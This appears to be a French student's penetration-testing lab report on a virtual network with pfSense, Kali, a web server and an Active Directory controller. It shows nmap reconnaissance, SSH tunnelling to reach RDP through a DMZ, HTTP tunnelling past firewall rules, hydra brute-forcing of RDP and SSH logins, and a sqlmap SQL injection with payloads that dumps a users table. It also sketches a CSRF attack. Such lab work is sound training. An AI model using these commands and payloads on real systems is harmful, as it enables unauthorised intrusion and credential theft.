






## EXERCICE 1 - Découverte de cibles

Ces manipulations sont à effectuer depuis la machine Kali que vous positionnerez sur différents segments réseaux.

- Depuis le WAN, listez les hôtes accessibles sur le WAN (NAT Network).

`````
$ nmap -sn 10.0.2.0/24


Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-04 02:18 EDT
Nmap scan report for b002-09.etudiants.campus.villejuif (10.0.2.2)
Host is up (0.00092s latency).
MAC Address: 52:55:0A:00:02:02 (Unknown)
Nmap scan report for b001-04.etudiants.campus.villejuif (10.0.2.3)
Host is up (0.00070s latency).
MAC Address: 52:55:0A:00:02:03 (Unknown)
Nmap scan report for efrei-xmg4agau1.campus.villejuif (10.0.2.15)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.15 seconds
                                                                        

┌──(kali㉿kali)-[~]
└─$ nmap 10.0.2.15 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-04 02:19 EDT
Nmap scan report for efrei-xmg4agau1.etudiants.campus.villejuif (10.0.2.15)
Host is up (0.0000080s latency).
All 1000 scanned ports on efrei-xmg4agau1.etudiants.campus.villejuif (10.0.2.15) are in ignored states.
Not shown: 1000 closed tcp ports (reset)

Nmap done: 1 IP address (1 host up) scanned in 0.24 seconds

`````


- Toujours depuis le WAN, essayez de lister les machines présentes sur le LAN et la DMZ. Pourquoi n'y arrivez-vous pas?

````
Depuis le WAN, il est très difficile, voire impossible, de lister directement les machines présentes sur le LAN et la DMZ à cause des règles de filtrage et du rôle du pare-feu (PfSense).
````

- Depuis la DMZ, listez les cibles potentielles. Pouvez-vous détecter les machines du LAN?


`````
─$ nmap -sn 192.168.34.0/24
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-04 03:06 EDT
Nmap scan report for 192.168.34.201
Host is up (0.00049s latency).
MAC Address: 08:00:27:44:5D:5C (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.34.254
Host is up (0.00034s latency).
MAC Address: 08:00:27:4D:9E:CA (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.34.20
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 32.11 seconds

`````

-sn pour scanner les ports

### On y retrouve la machine attaquente, le pfsense et le serveur web 

````
                                                                                                                 
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -O 192.168.34.201
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-04 03:07 EDT
Nmap scan report for 192.168.34.201
Host is up (0.00057s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
MAC Address: 08:00:27:44:5D:5C (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.60 seconds

````
Voici avec -sV et -O pour L'os et le service

### La version et Os du serveur web
`````
┌──(kali㉿kali)-[~]
└─$ nmap 192.168.34.254  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-04 03:08 EDT
Nmap scan report for 192.168.34.254
Host is up (0.00088s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE
53/tcp  open  domain
80/tcp  open  http
443/tcp open  https
MAC Address: 08:00:27:4D:9E:CA (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 17.91 seconds

`````

### Les infos du parfeu 


- Depuis le LAN, listez les cibles accessibles. Voyez-vous toutes les machines et tous les services?

````

$ nmap 192.168.33.0/24
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-04 03:23 EDT
Nmap scan report for 192.168.33.200
Host is up (0.00057s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman
MAC Address: 08:00:27:23:1F:FC (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap scan report for 192.168.33.201
Host is up (0.00057s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs
MAC Address: 08:00:27:FC:5D:F7 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap scan report for 192.168.33.254
Host is up (0.0010s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE
53/tcp  open  domain
80/tcp  open  http
443/tcp open  https
MAC Address: 08:00:27:8D:A6:58 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap scan report for 192.168.33.20
Host is up (0.0000050s latency).
All 1000 scanned ports on 192.168.33.20 are in ignored states.
Not shown: 1000 closed tcp ports (reset)

Nmap done: 256 IP addresses (4 hosts up) scanned in 39.36 seconds
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ 

````
### On y retrouve Le server windows, le serveur linux et le pfsense 

## EXERCICE 2 - Intérêt de la DMZ et trafic entrant depuis le WAN


- Désactivez la règle interdisant tout trafic de la DMZ vers le LAN.


On désactive  la régle "Deny DMZ to Lan".





- Activez l'accès SSH depuis le WAN vers le serveur WEB de la DMZ (redirection de port).

On installe ssh sur le serveur web 

```
sudo apt-get install openssh-server
````

"Créer une règle NAT sur le pare-feu pour rediriger le port 22 du WAN vers le port 22 de notre serveur Web."

On vérifie que le port est bien ouvert depuis notre kali sur le LAN:

````
──(kali㉿kali)-[~]
└─$ nmap 10.0.2.15      
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-04 03:42 EDT
Nmap scan report for 10.0.2.15
Host is up (0.00094s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE
53/tcp  open  domain
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 19.04 seconds

````


````

                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ ssh kali@10.0.2.15
kali@10.0.2.15's password: 
Linux kali 6.12.13-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.13-1kali1 (2025-02-11) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.


````

- Activez l'accès au bureau à distance pour l'administration sur le contrôleur de domaine DC dans le LAN.


Dans le Panneau de configuration et avec Un regle pfsense


- Démontrez qu'il est possible d'accéder au bureau à distance de DC depuis le WAN si un accès SSH a été gagné sur WEB.


### Puis le ssh tunelling

````
 ssh -L 3389:192.168.33.200:3389 kali@10.0.2.15 
kali@10.0.2.15's password: 
bind [127.0.0.1]:3389: Address already in use
channel_setup_fwd_listener_tcpip: cannot listen to port: 3389
Could not request local forwarding.
Linux kali 6.12.13-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.13-1kali1 (2025-02-11) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Apr  4 05:06:32 2025 from 10.0.2.15


````
````
(kali㉿kali)-[~]
└─$ rdesktop 127.0.0.1 
Autoselecting keyboard map 'en-us' from locale

````


- Activez à nouveau la règle interdisant le trafic de la DMZ vers le LAN et montrez que cette technique n'est plus possible.


On remarque effectivement que ça ne marche plus.


- Mettez en place le nécessaire pour accéder au bureau à distance de DC depuis le WAN sans compromettre le pare-feu (pas d'ajout de règles de redirection de ports).


Mise en place d'un VPN avec OpenVPN directement sur l'interface PFsense, Pour apres pouvoir se connecter en RDP via le VPN .


## EXERCICE 3 - Contournement de règles de filtrage IP

- Modifiez les règles de pare-feu pour n'autoriser que le trafic Web : HTTP, HTTPS et DNS.



on modifie les regles pour autoriser que le traffic Web 
HTTP, HTTPS et DNS.


- Montrez comment il est possible de faire transiter d'autres protocoles que ceux autorisés (RDP, SSH,...).

On peu faire de la tunelisation HTTP avec hts
````
sudo apt-get install hts
````
````
hts -p 443 -t ssh://localhost:22

````

# EXERCICE 4 - Attaques par force brute

### Créez un  compte utilisateur nommé jean sur Active Directory affectez lui le mot de passe P@ssw0rd.


### Activez le bureau à distance sur DC et W11.






### En utilisant un dictionnaire de mot de passe de votre choix, effectuez une attaque par force brute sur le service RDP (bureau à distance) de DC et/ou de W11. Pour simplifier l'opération, vous pouvez effectuer cette attaque depuis le LAN.


````
$ hydra -t 1 -V -f -l jean -P djaws.txt rdp://192.168.33.200
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-04 12:35:49
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 1 task per 1 server, overall 1 task, 8 login tries (l:1/p:8), ~8 tries per task
[DATA] attacking rdp://192.168.33.200:3389/
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "Djaws" - 1 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "DJaws" - 2 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "DJAWS" - 3 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "djaws" - 4 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "DJAWS!" - 5 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "P@ssw0rd" - 6 of 8 [child 0] (0/0)
[3389][rdp] host: 192.168.33.200   login: jean   password: P@ssw0rd
[STATUS] attack finished for 192.168.33.200 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-04 12:35:55
````

### Utilisez le même type d'attaque sur le service SSH tournant sur WEB en rendant le service accessible depuis le WAN (redirection de port).


````
hydra -l djaws -P djaws.txt 10.0.2.15 ssh -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-04 12:43:20
[DATA] max 4 tasks per 1 server, overall 4 tasks, 11 login tries (l:1/p:11), ~3 tries per task
[DATA] attacking ssh://10.0.2.15:22/
[22][ssh] host: 10.0.2.15   login: djaws  password: P@ssw0rd
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-04 04:43:32
````

## Comment pouvez-vous protéger ces accès (RDP et SSH) sans avoir à modifier les mots de passe utilisateur.

### - Utiliser des Clés SSH au lieu de Mots de Passe (pour SSH)

### - Limiter les Connexions RDP à des Adresses IP spécifiques

### - Configurer des Limites de Connexions et des Verrouillages après Tentatives d'Échec

````

 # EXERCICE 5 - Attaques sur des applications Web

 $ sqlmap -u http://192.168.34.201:8080/topics.php?id_forum=1 -p id_forum -D forum -T users --dump
        ___
       __H__                                                                                                       
 ___ ___[,]_____ ___ ___  {1.8.11#stable}                                                                          
|_ -| . ["]     | .'| . |                                                                                          
|___|_  ["]_|_|_|__,|  _|                                                                                          
      |_|V...       |_|   https://sqlmap.org                                                                       

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:13:21 /2025-04-04/

[13:13:21] [INFO] resuming back-end DBMS 'mysql' 
[13:13:21] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=7b5ac612ca2...3581f06aa3'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id_forum (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: id_forum=(SELECT (CASE WHEN (9231=9231) THEN 1 ELSE (SELECT 1353 UNION SELECT 5270) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id_forum=1 AND (SELECT 1436 FROM (SELECT(SLEEP(5)))gUEC)

    Type: UNION query
    Title: Generic UNION query (NULL) - 10 columns
    Payload: id_forum=1 UNION ALL SELECT CONCAT(0x716a787171,0x50765852767871455a696c7369545648557849744a6e66686873594c655759676f5555774e584641,0x7170766271),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[13:13:22] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.56, PHP, PHP 8.2.5
back-end DBMS: MySQL >= 5.0.12
[13:13:22] [INFO] fetching columns for table 'users' in database 'forum'
[13:13:22] [WARNING] reflective value(s) found and filtering out
[13:13:22] [INFO] fetching entries for table 'users' in database 'forum'
Database: forum
Table: users
[1 entry]
+-------+-------------+----------------+---------------------+------------+------------------------------------------------------------------+--------+---------+---------+---------------------+-----------------+
| ip    | mdp         | nom            | actif               | email      | login                                                            | code   | prenom  | admin   | dateaction          | dateinscription |
+-------+-------------+----------------+---------------------+------------+------------------------------------------------------------------+--------+---------+---------+---------------------+-----------------+
| admin | APPLICATION | Administrateur | 2025-04-04 16:35:52 | 172.18.0.1 | 5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8 | O      | <blank> | O       | 2025-04-04 16:35:52 | admin@appli.fr  |
+-------+-------------+----------------+---------------------+------------+------------------------------------------------------------------+--------+---------+---------+---------------------+-----------------+

````

# XSS 



# CSRF 

Il n'y a pas de jeton CSRF

On peut créer une page qui profite du fait que les cookies ne sont pas bien protégés. Si un admin visite cette page, un formulaire caché va s’envoyer tout seul grâce à du JavaScript, et ça peut supprimer n’importe quel topic à sa place.


